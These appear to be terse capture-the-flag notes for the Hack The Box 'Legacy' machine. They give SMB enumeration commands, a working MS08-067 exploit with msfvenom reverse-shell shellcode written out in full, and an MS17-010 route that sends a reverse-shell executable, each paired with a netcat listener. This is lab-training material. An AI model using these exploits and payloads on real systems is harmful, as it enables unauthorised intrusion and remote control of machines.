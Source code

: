 # Legacy

furious 10.10.10.4
nmap -sC -sV -p139,445 -n -Pn 10.10.10.4 -oN targeted

![182516.png](182516.png)

```bash
smbmap -H 10.10.10.4

smbclient -N -L //10.10.10.4

nmap -p445 10.10.10.4 --script="smb-vuln*" -Pn -o nmap_smb.txt
```
![182243.png](182243.png)


# MS08-67

wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

```bash 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows
```

## we edit the shellcode in ms08-067.py
```python
shellcode =  b""
shellcode += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\xae\xdb\xa9\xf4\x83\xee\xfc"
shellcode += b"\xe2\xf4\x52\x33\x2b\xf4\xae\xdb\xc9\x7d\x4b"
shellcode += b"\xea\x69\x90\x25\x8b\x99\x7f\xfc\xd7\x22\xa6"
shellcode += b"\xba\x50\xdb\xdc\xa1\x6c\xe3\xd2\x9f\x24\x05"
shellcode += b"\xc8\xcf\xa7\xab\xd8\x8e\x1a\x66\xf9\xaf\x1c"
shellcode += b"\x4b\x06\xfc\x8c\x22\xa6\xbe\x50\xe3\xc8\x25"
shellcode += b"\x97\xb8\x8c\x4d\x93\xa8\x25\xff\x50\xf0\xd4"
shellcode += b"\xaf\x08\x22\xbd\xb6\x38\x93\xbd\x25\xef\x22"
shellcode += b"\xf5\x78\xea\x56\x58\x6f\x14\xa4\xf5\x69\xe3"
shellcode += b"\x49\x81\x58\xd8\xd4\x0c\x95\xa6\x8d\x81\x4a"
shellcode += b"\x83\x22\xac\x8a\xda\x7a\x92\x25\xd7\xe2\x7f"
shellcode += b"\xf6\xc7\xa8\x27\x25\xdf\x22\xf5\x7e\x52\xed"
shellcode += b"\xd0\x8a\x80\xf2\x95\xf7\x81\xf8\x0b\x4e\x84"
shellcode += b"\xf6\xae\x25\xc9\x42\x79\xf3\xb3\x9a\xc6\xae"
shellcode += b"\xdb\xc1\x83\xdd\xe9\xf6\xa0\xc6\x97\xde\xd2"
shellcode += b"\xa9\x24\x7c\x4c\x3e\xda\xa9\xf4\x87\x1f\xfd"
shellcode += b"\xa4\xc6\xf2\x29\x9f\xae\x24\x7c\xa4\xfe\x8b"
shellcode += b"\xf9\xb4\xfe\x9b\xf9\x9c\x44\xd4\x76\x14\x51"
shellcode += b"\x0e\x3e\x9e\xab\xb3\xa3\xfe\xa0\xd4\xc1\xf6"
shellcode += b"\xae\xda\x12\x7d\x48\xb1\xb9\xa2\xf9\xb3\x30"
shellcode += b"\x51\xda\xba\x56\x21\x2b\x1b\xdd\xf8\x51\x95"
shellcode += b"\xa1\x81\x42\xb3\x59\x41\x0c\x8d\x56\x21\xc6"
shellcode += b"\xb8\xc4\x90\xae\x52\x4a\xa3\xf9\x8c\x98\x02"
shellcode += b"\xc4\xc9\xf0\xa2\x4c\x26\xcf\x33\xea\xff\x95"
shellcode += b"\xf5\xaf\x56\xed\xd0\xbe\x1d\xa9\xb0\xfa\x8b"
shellcode += b"\xff\xa2\xf8\x9d\xff\xba\xf8\x8d\xfa\xa2\xc6"
shellcode += b"\xa2\x65\xcb\x28\x24\x7c\x7d\x4e\x95\xff\xb2"
shellcode += b"\x51\xeb\xc1\xfc\x29\xc6\xc9\x0b\x7b\x60\x49"
shellcode += b"\xe9\x84\xd1\xc1\x52\x3b\x66\x34\x0b\x7b\xe7"
shellcode += b"\xaf\x88\xa4\x5b\x52\x14\xdb\xde\x12\xb3\xbd"
shellcode += b"\xa9\xc6\x9e\xae\x88\x56\x21"
```

```bash
python ms08-067.py 10.10.10.4 6 445


#on other terminal
nc -lvp 443
```

## open a smb server in our machine and get files from there on the other site

```bash
sudo smbserver.py a /usr/share/windows-binaries/ 
```

In the victim machine
```cmd
\\10.10.14.15\a\whoami.exe
```
![200837.png](200837.png)

# MS17-010

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8888 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/mysmb.py

```bash
python send_and_execute.py 10.10.10.4 shell.exe

# wait in another terminal a reverse shell
nc -lvp 8888 
```
